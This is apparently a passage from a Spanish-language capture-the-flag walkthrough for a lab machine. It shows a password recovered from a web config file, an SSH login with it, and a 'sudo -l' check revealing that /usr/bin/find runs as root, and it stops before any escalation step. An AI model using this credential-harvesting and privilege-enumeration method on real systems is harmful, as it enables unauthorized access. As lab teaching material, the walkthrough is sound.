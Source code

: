 ### ✅ Resultado final

> **Contraseña descubierta:** `thisisagoodpassword`  
> **Usuario presente:** `admin`  
> 📁 **Ruta del hallazgo:** `/var/www/html/login/config.php`


### 🧩 TAREA 9 - ¿Qué comando puede ejecutar `john` como root?

#### 🎯 Objetivo:

Encontrar qué comando puede ejecutar el usuario `john` como root.

#### 📌 Proceso:

1. **Accedemos vía SSH con john**:

```bash
ssh john@10.129.95.184
Password: thisisagoodpassword
```

2. **Verificamos permisos sudo**:

```bash
sudo -l
```

Salida:

```bash
User john may run the following commands on base:
(root : root) /usr/bin/find
```
